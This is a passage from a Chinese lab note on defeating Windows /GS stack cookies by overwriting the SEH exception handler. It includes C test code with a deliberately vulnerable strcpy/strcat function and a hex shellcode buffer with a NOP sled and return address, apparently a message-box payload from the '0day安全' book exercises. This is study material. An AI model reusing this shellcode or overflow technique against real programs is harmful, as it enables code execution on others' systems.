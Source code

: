 这时候执行push esp就将shellcode中的地址传入栈中，然后retn后就执行shellcode中内容

<font color=#f00>本次执行的过程与《0day安全》上讲的不一样，总觉得书上这个地方讲错了</font>

### 4. 攻击异常处理突破GS

#### 4.1 测试代码

<pre><code>
#include "stdafx.h"
#include "string.h"

char shellcode[] = 
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xA0\xFE\x12\x00";


void test(char *input)
{
	char buf[200];
	strcpy(buf, input);
	strcat(buf, input);
}

int main()
{
	test(shellcode);
}
</code></pre>

#### 4.2 实验原理

实验思路
1. 函数test存在典型的栈溢出漏洞
2. 在strcpy操作后变量buf会被溢出，当字符串足够长的时候程序的SEH异常处理句柄会被淹没
3. 由于strcpy溢出，覆盖了input的地址，会造成strcat从一个非法地址读取错误，这会触发异常，程序进入异常处理，这样就可以在程序检查Security Cookie前将程序流程劫持

实验环境
